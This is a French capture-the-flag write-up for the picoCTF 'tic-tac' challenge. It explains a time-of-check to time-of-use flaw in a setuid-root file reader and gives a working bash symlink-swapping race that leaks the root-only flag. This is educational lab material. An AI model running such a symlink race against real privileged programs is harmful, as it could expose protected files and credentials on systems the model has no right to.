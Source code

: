 # tic-tac

## Enoncé
Catégorie : [Binary Exploitation](../)

Points : 200

Tags : `linux` `bash` `toctou`

Description :
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.  
> `ssh` to `saturn.picoctf.net:xxxxx`, and run the binary named "`txtreader`" once connected. Login as `ctf-player` with the password, `xxxxx`


## Approche

Les fichiers présents dans le HOME directory du user `ctf-player` sont les suivants :
```bash
ctf-player@pico-chall$ ls -l
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

On constate que le "sticky bit" est positionné sur `txtreader`, permettant donc d'exécuter celui-ci avec les droits de son propriétaire (i.e. ici `root`)

L'examen du code source `src.cpp` montre que dans un premier temps, un contrôle est réalisé vérifiant que l'on est bien le propriétaire du ficher (via l'appel à `getuid()`) :
```cpp
  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }
```

Puis dans un deuxième temps, le contenu du fichier est lu et restitué sur la sortie standard :
```cpp
  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } ...
```

Le tag `toctou` présent dans l'énoncé référence un bug pouvant, en cas d'accès concurrientiel, être exploité pour contourner des vérifications.
L'article wikipedia suivant en explique le principe : [Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)

Dans notre cas, on est dans le même cas de figure, puisque le contrôle des droits d'accès et l'accès lui-même sont réalisées en 2 temps.


## Solution

De façon concurrente on va réaliser les 2 tâches suivantes :
* utiliser un lien symbolique `myfile.txt` qui va switcher entre un fichier sur lequel on est le propriétaire (par exemple `fake.txt`), et le fichier `flag.txt` dont on veut lire le contenu,
* lancer le binaire `txtreader` pour lire le contenu de ce lien symbolique `myfile.txt`

On espère ainsi tomber dans le cas de figure où :
* le contrôle sur le propriétaire est réalisé alors que le lien symbolique `myfile.txt` pointe sur `fake.txt`
* puis, lorsque la lecture du contenu est réalisée, le lien symbolique `myfile.txt` pointe sur `flag.txt`

Voici le scripting correspondant :
```bash
# Création du fichier fake.txt vide
touch fake.txt
# Traitement en arrière plan alternant la cible du lien symbolique (fake.txt vs flag.txt)
(while true; do ln -sf ~/flag.txt ~/myfile.txt; ln -sf ~/fake.txt ~/myfile.txt; done) &
# Boucle de tentative de lecture du fichier via son lien symbolique
while true; do ./txtreader ./myfile.txt; done
```

Quand on arrive à exploiter la faille, le contenu du fichier `flag.txt` s'affiche :
```txt
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_xxxxxxxx}
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
```
